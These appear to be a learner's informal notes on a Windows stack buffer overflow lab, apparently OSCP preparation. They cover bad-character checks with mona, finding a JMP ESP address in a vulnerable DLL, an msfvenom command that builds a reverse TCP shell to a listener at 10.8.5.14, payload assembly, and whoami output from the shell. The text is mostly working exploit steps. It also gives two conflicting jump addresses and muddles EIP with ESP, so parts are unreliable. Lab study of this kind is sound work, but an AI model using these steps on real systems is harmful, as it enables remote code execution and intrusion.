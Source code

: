 skip to find bad char...because my cherry tree notes crashed somhow....i was about to take note's using screen shoe but that's not happen.Fucking cheryy tree..

As we got four bad chars let's use mona to add in arrey using -b bytearrey 'badchar'
our_badchar=\x00\x07\x2e\xa0

and send the payload again and verify the badchar...if on popup saying undefind that means there is no bad char...

Now to get the jump eip we need to check the !mona modules

if there is all false in popup window that means that module of the app is vulnrable...

now find the jump esp ....

 !mona find -s "\xff\xe4" -m somvuln.dll 

this will retun the address of jump eip
   save the jump eip 311712f3 set this eip in payload as
   eip=eip= '\xf3\x12\x17\x31'
in this case...
#jmp 0x625011af
to little indian form

jmp="\xaf\x11\x50\x62"



creating the shellcode.. 
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.5.14 LPORT=1234 -b '\x00\x07\x2e\xa0' -f c

and copyt the output and paste in our program as shellcode value..

now payload is.....


'A'*offsetvalue
jmp="\xaf\x11\x50\x62"
nopt='\x90'*10
shellcode=msfoutput

start the listener and send the payload...

got the shell 

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin





